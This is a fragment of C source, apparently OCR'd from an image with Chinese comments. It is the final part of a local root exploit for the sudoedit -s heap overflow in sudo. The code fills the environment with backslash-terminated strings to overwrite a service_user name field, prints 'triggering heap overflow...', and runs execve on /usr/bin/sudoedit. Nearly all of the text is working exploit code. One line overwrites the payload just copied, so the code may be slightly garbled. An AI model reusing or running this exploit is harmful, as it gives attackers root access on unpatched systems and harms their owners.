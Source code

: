 ```c
    int i = 0;
    char stack[STACK_SIZE];		
    char *env[MAX_ENV];		//环境变量指针数组
    char *argv[5];			//参数指针数组

    char *path = "/usr/bin/sudoedit";
    char *opt = "-s";
    char *tmp = stack;
    
    memset(stack, 0, STACK_SIZE);
    memset(env, 0, 8 * MAX_ENV);

    memcpy(tmp, path, strlen(path) + 1);
    argv[0] = tmp;                  		//复制sudoedit路径
    tmp += strlen(path) + 1;

    memcpy(tmp, opt, strlen(opt) + 1);
    argv[1] = tmp;                 		 //-s选项
    tmp += strlen(opt) + 1;
                    
    memcpy(tmp, cmnd1, strlen(cmnd1) + 1);
    argv[2] = tmp;
    tmp += strlen(cmnd1) + 1;           	// 第一个命令

    memcpy(tmp, cmnd2, strlen(cmnd2) + 1);
    argv[3] = tmp;
    tmp += strlen(cmnd2) + 1;		//第二个命令
    argv[4] = NULL;
    
    for(i = 0; i < null_sz; i++){           // 填充反斜杠，由于to++=from++，反斜杠后面的空字符会被复制到缓冲区
        memcpy(tmp, "\\", 2);		// 此举为了将service_user结构中name字段之前的全部填充0
        env[i] = tmp;
        tmp += 2;
    }

    memcpy(tmp, popshell, 5);		// “X/X\x00”填充name字段
		memcpy(tmp, "a", 2);		//这个a是为了终止while循环的越界写，
    env[i++] = tmp;			//写的内容太多了会导致程序异常终止
    tmp += 2;
    
    memcpy(tmp, env1, strlen(env1) + 1);
    env[i++] = tmp;			//setlocale的环境变量
    tmp +=  strlen(env1) + 1;

    memcpy(tmp, env2, strlen(env2) + 1);
    env[i++] = tmp;			//setlocale的环境变量
    tmp +=  strlen(env2) + 1;
    env[i] = NULL;
    
    printf("[.]pid: %d\n", getpid());
    puts("[.] triggering heap overflow...");
    execve(path, argv, env);		//启动sudoedit
    
    return 0;
}
```
